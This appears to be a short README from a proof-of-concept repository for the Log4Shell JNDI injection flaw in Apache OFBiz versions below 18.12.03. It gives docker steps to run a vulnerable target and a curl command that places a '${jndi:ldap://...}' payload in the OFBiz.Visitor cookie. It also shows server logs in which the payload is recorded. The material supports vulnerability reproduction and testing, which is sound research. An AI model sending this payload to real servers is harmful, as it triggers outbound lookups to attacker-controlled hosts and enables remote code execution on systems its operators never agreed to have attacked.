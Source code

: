# Apache OFBiz log4j RCE

## Version

```
OFBiz < v18.12.03
```

## vulnerable app

```
git clone https://github.com/cckuailong/reapoc && cd reapoc/2020/CVE-2020-9496/vultarget/

docker-compose up -d
```

## Poc

```
curl --insecure -vv -H "Cookie: OFBiz.Visitor=\${jndi:ldap://ofbiz_test.yyyyyyyy}" https://xxxxxxxxxx/myportal/control/main
```

Log

```
2021-12-14 12:50:07,043 |sse-nio-8443-exec-16 |VisitHandler                  |I| Found visitorId [${jndi:ldap://localhost:1270/abc}] in cookie
2021-12-14 12:50:07,045 |sse-nio-8443-exec-16 |VisitHandler                  |I| The visitorId [${jndi:ldap://localhost:1270/abc}] found in cookie was invalid, creating new Visitor with ID [10010]
```

I've tested it

![](1.png)
